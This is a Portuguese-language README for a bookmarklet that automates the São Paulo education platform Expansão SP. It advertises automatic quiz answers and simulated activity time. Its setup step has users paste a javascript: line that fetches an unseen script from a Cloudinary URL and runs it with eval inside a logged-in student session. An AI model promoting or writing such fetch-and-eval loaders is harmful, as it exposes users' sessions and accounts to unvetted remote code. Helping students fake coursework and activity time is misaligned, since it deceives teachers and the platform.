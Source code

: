 # 🌙 Expansão Noturna v2 - MoonScripts Beta

> 🧪 Projeto em **desenvolvimento beta**  
> ✨ Feito com carinho por **@biscurim**  

---

## 📌 Sobre o projeto

**Expansão Noturna v2** é um script avançado que automatiza tarefas da plataforma [Expansão SP](https://expansao.educacao.sp.gov.br/), criado para facilitar o dia a dia de estudantes e professores.  
Funciona diretamente pelo navegador via **bookmarklet**, sem necessidade de extensões ou instalações.

### ⚙️ Funcionalidades

- ✅ Preenchimento automático de respostas e quizzes
- ⏱️ Simulação de tempo real de atividade
- 📊 Barra de progresso com feedback visual
- 🧠 Execução automática com lógica otimizada
- 🌓 Interface discreta e adaptada para uso noturno

---

## 🪄 Como usar

1. **Copie** o código abaixo (bookmarklet):
    ```js
    javascript:fetch("https://res.cloudinary.com/dcov4pazn/raw/upload/v1750620197/exp_uihbci.js").then(t=>t.text()).then(eval);
    ```
2. Abra o navegador (Chrome, Edge ou Firefox).
3. Crie um novo **favorito** e cole esse código no campo de **URL**.
4. Dê um nome como `🌓 Expansão Noturna v2`.
5. Acesse o site: [https://expansao.educacao.sp.gov.br](https://expansao.educacao.sp.gov.br).
6. Clique no seu curso após isso execute o bookmarklet salvo e aguarde a mágica acontecer! ✨

---

## 💡 Recomendações

- Use em **sessões ativas** do aluno logado.
- Evite múltiplas execuções simultâneas.
- Para evitar erros, aguarde o carregamento completo da página antes de ativar.

---

## 🛑 Aviso Legal

Este projeto é para fins educacionais.  
Não nos responsabilizamos pelo uso indevido ou violação das políticas da plataforma oficial.

---

## 🙌 Créditos

- 👤 Criado por: [@biscurim](https://github.com/biscurim)
- 📌 Distribuído por: [MoonScripts](https://discord.gg/tYZvGHd4YF)
- 💬 Sugestões e melhorias? Abra um ticket no nosso Discord!

---

## 🧪 Status do projeto

> 🔨 Em desenvolvimento  
> 🧼 Última limpeza de código: Junho/2025  

---

